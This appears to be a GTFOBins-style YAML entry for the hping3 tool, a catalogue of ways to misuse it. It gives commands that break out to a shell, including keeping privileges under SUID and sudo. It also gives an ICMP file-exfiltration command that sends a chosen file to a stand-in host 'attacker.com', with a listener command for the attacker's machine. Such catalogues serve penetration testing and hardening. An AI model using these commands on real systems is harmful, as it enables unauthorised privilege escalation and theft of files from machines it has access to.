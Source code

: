 ```yaml
---
functions:
  shell:
    - code: |
        hping3
        /bin/sh
  suid:
    - code: |
        ./hping3
        /bin/sh -p
  sudo:
    - code: |
        sudo hping3
        /bin/sh
    - description: |
        The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:
        
        ```
        sudo hping3 --icmp --listen xxx --dump
        ```
      code: |
        RHOST=attacker.com
        LFILE=file_to_read
        sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
---
```

